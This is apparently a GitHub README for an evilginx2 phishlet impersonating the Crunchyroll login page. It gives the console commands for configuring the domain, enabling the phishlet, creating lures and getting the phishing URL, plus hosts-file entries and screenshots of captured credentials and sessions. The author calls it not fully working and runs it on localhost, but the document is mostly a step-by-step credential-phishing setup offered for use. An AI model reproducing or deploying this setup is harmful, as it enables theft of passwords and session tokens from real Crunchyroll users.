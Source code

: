 # evilginx2-crunchyroll

crunchyroll phishlet for evilginx2.  
capture the login or register credentials.  
it's not fully working.  

using localhost.

## steps
download or clone this file and extract inside phishlet folder.  
start evilginx.  

`config domain crunchyroll.com`  
`config ipv4 127.0.0.1`

`phishlets hostname crunchyroll login.crunchyroll.com`  
`phishlets enable crunchyroll`  
`phishlets get-hosts crunchyroll`

	127.0.0.1 www.login.crunchyroll.com
	127.0.0.1 sso.login.crunchyroll.com
	127.0.0.1 static.login.crunchyroll.com
	
	# add to C:/Windows/System32/Driver/etc/hosts or /etc/hosts

`lures`  
`lures create crunchyroll -> check generated ID`  
`lures get-url ID`  

	https://sso.login.crunchyroll.com/innRipMA

go to your browser
clear all history
access the generated link
after login or registration get credentials

`sessions`  

## captures

![1](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/b7108ade-658c-4a0e-a017-aebca968f8cc)

![2](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/df2177dd-38e2-4db0-8855-197e3a44f498)

![3](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/4e4027fa-e65b-4555-8734-e5e9db1abe27)

credentials will appear in the console

![4](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/ddb43bac-1e5a-43fd-8a89-9c7524515a34)

sessions information

![5](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/82d44097-9113-4a36-a920-4ff474b43ad2)